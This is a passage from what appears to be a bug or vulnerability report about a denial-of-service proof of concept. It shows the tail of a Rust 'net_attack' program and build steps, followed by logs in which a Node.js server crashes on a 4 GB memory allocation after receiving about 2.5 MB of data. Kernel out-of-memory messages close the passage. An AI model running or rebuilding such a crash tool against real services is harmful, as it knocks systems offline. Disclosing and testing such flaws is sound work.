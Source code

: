 ```
        });
        handles.push(handle);
    }

    for handle in handles {
        handle.await.unwrap();
    }
```

### run
```
cargo build
```


## output
### server
```
node test.js # now wait for attacker to run
memory allocation of 4294967295 bytes failed
Aborted (core dumped)
```
### attacker
```
(cmd)root@localhost:~/net_attack# ps -ef | grep "node"
root      622235  619278  0 12:07 pts/4    00:00:00 node test.js
root      622426  565054  0 12:07 pts/3    00:00:00 grep --color=auto node
(ins)root@localhost:~/net_attack# pstree -p 622235
node(622235)─┬─{node}(622236)
             ├─{node}(622237)
             ├─{node}(622238)
             ├─{node}(622239)
             ├─{node}(622240)
             ├─{node}(622241)
             └─{node}(622242)
(ins)root@localhost:~/net_attack# ./target/debug/net_attack 
working on localhost:10000
localhost:10000 took 2512 kb of data to explode the server
(cmd)root@localhost:~/net_attack# pstree -p 622235
(ins)root@localhost:~/net_attack# ps -ef | grep "622235"
root      622446  565054  0 12:08 pts/3    00:00:00 grep --color=auto 622235
```

### dmesg
```
[25332975.711693] oom-kill:constraint=CONSTRAINT_NONE,nodemask=(null),cpuset=/,mems_allowed=0,global_oom,task_memcg=/user.slice/user-0.slice/session-51052.scope,task=npm ci,pid=561123,uid=0
[25332975.711736] Out of memory: Killed process 561123 (npm ci) total-vm:1456584kB, anon-rss:311600kB, file-rss:128kB, shmem-rss:0kB, UID:0 pgtables:4316kB oom_score_adj:0
[25333014.835316] Adding 2097148k swap on /swapfile2g.  Priority:-3 extents:22 across:20447200k SSFS          
[25333464.439782] systemd-journald[3612200]: Failed to create new system journal: No space left on device     
[25333464.482234] systemd-journald[3612200]: Failed to open system journal: No space left on device           
[25333464.490041] systemd-journald[3612200]: Failed to open system journal: No space left on device           
[25333464.496164] systemd-journald[3612200]: Failed to open system journal: No space left on device           
[25333524.489081] systemd-journald[3612200]: Failed to open system journal: No space left on device (Dropped 9647 similar message(s))
```